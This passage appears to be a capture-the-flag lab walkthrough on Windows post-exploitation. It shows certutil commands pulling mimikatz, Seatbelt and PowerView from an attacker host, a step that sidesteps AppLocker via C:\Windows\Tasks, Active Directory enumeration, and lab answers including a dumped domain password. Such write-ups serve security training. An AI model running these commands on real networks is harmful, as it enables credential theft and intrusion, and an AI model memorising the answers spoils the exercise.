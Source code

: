   ```certutil.exe -urlcache -f http://10.50.109.20/mimikatz64.exe mimikatz.exe```
1. What domain user's credentials can we dump on S-SRV01? - watamet

2. What is the domain user's password that we can dump on S-SRV01? - Nothingtoworry!

3. What is the hostname of the remote endpoint we can authenticate to? - PC-FILESRV01
```

## Situational Awareness - 2

```shell
#in cmd prompt in PC-FILESRV01
certutil.exe -urlcache -f http://10.50.109.20/Seatbelt.exe seatbelt.exe

copy seatbelt.exe C:\Windows\Tasks
#run from path where AppLocker allows running programs

cd C:\Windows\Tasks

seatbelt.exe -group=system
#run seatbelt

seatbelt.exe -group=all -full
#gives a lot of output
#redirect output to a file for easy search
```

```ps
#in PowerShell
cd C:\Windows\Tasks

certutil.exe -urlcache -f http://10.50.109.20/PowerView.ps1 PowerView.ps1

Import-Module .\PowerView.ps1
#to use the script

Get-NetLocalGroup
#list all groups

Get-NetLocalGroupMember -Group Administrators
#list all members of local group 'Administrators'

Get-NetLoggedon
#list all users currently logged onto system

Get-DomainGPO
#list AD domain GPOs installed

Find-LocalAdminAccess
#check if current user is local admin at any connected system

Get-ScheduledTask
#list all scheduled tasks
#we can filter paths using -TaskPath

Get-ScheduledTaskInfo -TaskName "Microsoft\Windows\Shell\CreateObjectTask"
#shows info on task given

whoami /priv

Import-Module ActiveDirectory; Get-ADGroup
#enumerate user groups within AD
#prompted to enter filter - use <samAccountName -like "*">
```
